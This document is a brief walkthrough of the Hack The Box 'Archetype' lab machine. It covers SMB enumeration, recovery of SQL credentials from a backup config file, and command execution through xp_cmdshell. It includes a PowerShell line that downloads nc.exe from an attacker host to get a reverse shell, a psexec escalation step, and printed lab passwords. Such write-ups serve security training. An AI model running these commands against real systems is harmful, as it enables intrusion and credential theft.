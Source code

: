 ![[Pasted image 20210420124151.png]]

Starting with a basic nmap scan

`nmap -sC -sV 10.10.10.27`

![[Pasted image 20210420124332.png]]

We see that smb is enabled 

`smbclient -L \\\\10.10.10.27`

![[Pasted image 20210420124513.png]]

we have 'backups' share which we can access

![[Pasted image 20210420124722.png]]

We have a prod.dtsConfig file in the backup share 

![[Pasted image 20210420124855.png]]

Now we have the username and the password for the sql server

Domain : `ARCHETYPE\`

Username : `sql_svc`

Password : `M3g4c0rp123`

Logging in with the credentials using impacket-mssqlclient 

![[Pasted image 20210420125449.png]]

![[Pasted image 20210420125641.png]]

Now we have access to the sql server using which we can execute commands on the machine as `sql_svc` user

	
We transferred the nc.exe binary from our kali machine to the windows machine 

`xp_cmdshell powershell wget -UseBasicParsing http://10.10.17.67:8000/nc.exe -OutFile %temp%/nc.exe`

![[Pasted image 20210420130823.png]]

![[Pasted image 20210420130808.png]]

We get a nc reverse shell of the user `sql_svc`

Looking in the command history of the powershell 

We get the password for the administrator user

Username : `administrator` 

Password : `MEGACORP_4dm1n!!`

Now we can use psexec.py to get into administrator account

![[Pasted image 20210420132323.png]]




